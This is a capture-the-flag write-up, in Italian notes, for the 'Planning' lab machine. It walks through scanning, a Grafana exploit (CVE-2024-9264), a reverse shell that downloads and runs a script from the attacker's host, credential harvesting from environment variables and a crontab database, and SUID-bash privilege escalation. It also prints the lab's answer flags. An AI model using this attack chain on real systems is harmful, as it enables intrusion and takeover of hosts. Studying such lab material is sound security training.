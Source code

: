 # Planning

ip address: 10.10.11.68

## machine informations
As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

# NMAP

Nmap scan report for 10.10.11.68
Host is up (1.4s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/16%OT=22%CT=1%CU=38818%PV=Y%DS=2%DC=I%G=Y%TM=6827
OS:465C%P=x86_64-pc-linux-gnu)SEQ()SEQ(SP=103%GCD=1%ISR=10C%TI=Z%CI=Z)SEQ(S
OS:P=103%GCD=1%ISR=10C%TI=Z%CI=Z%II=I)SEQ(SP=103%GCD=1%ISR=10C%TI=Z%CI=Z%II
OS:=I%TS=C)OPS(O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7
OS:%O5=M542ST11NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%
OS:W6=FE88)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=N)T1(
OS:R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)T7(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=N)U1(R=Y%DF=N%T=40%IPL=16
OS:4%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 460.10 seconds

# Exploiting

c'è il sito -> lo analizzo e mi scarico i sorgenti con wget.

enum con ffuf -> trovo un sottodominio: grafana.planning.htb

Accedo con le credenziali date dalle info della macchina

cerco CVE per grafana -> https://github.com/nollium/CVE-2024-9264.git

Creo il file shell.sh sulla porta e avvio la reverse shell:

1. python server sulla 8000
2. nc -lvnp 1337
3. python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.23:8000/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh" http://grafana.planning.htb


una volta dentro mmi accorgo di essere in un container. Faccio env e ottengo le credenziali dell'admin

> enzo
> RioTecRANDEntANT!

mi connetto in ssh: 
> ssh enzo@10.10.11.68 

# USER FLAG

879e7309048ddcb7fabde978b10a3819


# PRIVESC

- cat /opt/crontabs/crontab.db

mi segno la password trovata -> root:P4ssw0rdS0pRi0T3c

- netstate -tulpn

la 8000 è aperta -> port forwarding per accedere ai crontabs:

ssh -L 8000:127.0.0.1:8000 enzo@planning.

accedo con quelle di prima

una volta entrato -> accedo ai crontab da google in localhost:8000, 

creo un nuovo crontab che sposta bin bash e gli assegna il SUID:

cp /bin/bash /tmp/bash && chmod u+s /tmp/bash

eseguo con /tmp/bash -p

# ROOT FLAG
2fdb444285c2a603c46e211bf963ea67